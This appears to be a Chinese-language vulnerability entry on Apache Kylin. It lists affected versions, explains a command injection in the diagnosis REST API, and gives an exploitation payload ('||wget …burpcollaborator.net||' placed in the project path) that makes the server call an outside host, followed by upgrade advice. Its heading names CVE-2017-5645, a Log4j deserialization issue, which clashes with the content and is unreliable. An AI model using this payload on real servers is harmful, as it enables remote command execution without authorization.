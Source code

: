 ```yaml
---
title: Apache-Kylin
---
```


## 应用简介

[Apache Kylin](http://kylin.apache.org/cn/) 是 eBay 公司开发的一个开源分布式 `OLAP（联机分析处理）` 分析引擎

基于 Hadoop 提供 SQL 接口和 OLAP 接口，支持 TB 到 PB 级别的数据量

被国内外的很多大型互联网企业广泛应用 于 大数据领域 ， 被业界称为大数据分析界的“神兽”

Docker环境：https://github.com/apache/kylin

## [CVE-2017-5645]-Log4j Server 反序列化

**漏洞概述**

```http
#影响范围
Kylin 2.3.0 ~ 2.3.2
Kylin 2.4.0 ~ 2.4.1
Kylin 2.5.0 ~ 2.5.2
Kylin 2.6.0 ~ 2.6.6
Kylin 3.0.0 ~ 3.0.2
```

Kylin的restful API可以将操作系统命令与用户输入的字符串连接起来

由于对用户输入的内容缺少必要的验证，导致攻击者可以远程执行任何系统命令而无需任何验证

**漏洞利用**

```bash
#登陆后访问 System-Configuration-Diagnosis ，触发下载诊断信息的请求
#原始请求：
http://host:port/kylin/api/diag/project/learn_kylin/download

payload：||wget h1j96qoac5o9mbqpkewkhxxa218rwg.burpcollaborator.net||

#替换learn_kylin为以上payload即可
```

**修复建议**

升级到安全版本(3.1.0)：https://kylin.apache.org/download/

注：修复漏洞前请将资料备份，并进行充分测试

**漏洞分析**

https://www.anquanke.com/post/id/210867